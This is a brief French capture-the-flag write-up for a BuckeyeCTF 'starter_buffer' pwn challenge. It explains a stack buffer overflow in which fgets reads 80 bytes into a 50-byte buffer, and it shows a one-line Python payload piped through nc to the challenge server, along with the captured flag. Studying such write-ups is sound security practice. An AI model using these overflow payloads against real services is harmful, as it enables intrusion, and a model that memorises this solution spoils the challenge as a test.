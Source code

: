 # Ret2win

But : remplacer la valeur de flag

## Overflow

On peut rentrer `fgets(buf, 0x50, stdin)` 80 caractères dans `buf` qui est initialisé à 50.
A partir de 60 caractères, flag est atteint.

## Win

```bash
┌─[night@night-20b7s2ex01]─[~/buckeyectf/pwn/starter_buffer]
└──╼ 3 fichiers, 24Kb)─$ python -c 'print("A"*60+"\x45"*4)' | nc chall.pwnoh.io 13372
Enter your favorite number: bctf{wHy_WriTe_OveR_mY_V@lUeS}
```
